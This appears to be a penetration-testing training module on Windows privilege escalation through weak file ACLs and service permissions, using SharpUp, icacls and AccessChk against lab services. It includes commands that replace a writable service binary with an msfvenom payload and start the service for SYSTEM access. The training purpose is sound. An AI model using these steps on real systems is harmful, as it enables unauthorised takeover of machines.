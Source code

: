 # Weak Permissions

Permissions on Windows systems are complicated and challenging to get right. A slight modification in one place may introduce a flaw elsewhere. As penetration testers, we need to understand how permissions work in Windows and the various ways that misconfigurations can be leveraged to escalate privileges. The permissions-related flaws discussed in this section are relatively uncommon in software applications put out by large vendors (but are seen from time to time) but are common in third-party software from smaller vendors, open-source software, and custom applications. Services usually install with SYSTEM privileges, so leveraging a service permissions-related flaw can often lead to complete control over the target system. Regardless of the environment, we should always check for weak permissions and be able to do it both with the help of tools and manually in case we are in a situation where we don't have our tools readily available.

***

## Permissive File System ACLs

### **Running SharpUp**

We can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs.

```powershell
PS C:\htb> .\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===


=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
  
  <SNIP>
```

The tool identifies the `PC Security Management Service`, which executes the `SecurityService.exe` binary when started.

### **Checking Permissions with icacls**

Using [icacls](https://ss64.com/nt/icacls.html) we can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\Users` groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

```powershell
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

### **Replacing Service Binary**

This service is also startable by unprivileged users, so we can make a backup of the original binary and replace it with a malicious binary generated with `msfvenom`. It can give us a reverse shell as `SYSTEM`, or add a local admin user and give us full administrative control over the machine.

```cmd-session
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

***

## Weak Service Permissions

### **Reviewing SharpUp Again**

Let's check the `SharpUp` output again for any modifiable services. We see the `WindscribeService` is potentially misconfigured.

```cmd-session
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

### **Checking Permissions with AccessChk**

Next, we'll use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to enumerate permissions on the service. The flags we use, in order, are `-q` (omit banner), `-u` (suppress errors), `-v` (verbose), `-c` (specify name of a Windows service), and `-w` (show only objects that have write access). Here we can see that all Authenticated Users have [SERVICE\_ALL\_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) rights over the service, which means full read/write control over it.

```cmd-session
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```

### **Check Local Admin Group**

Checking the local administrators group confirms that our user `htb-student` is not a member.
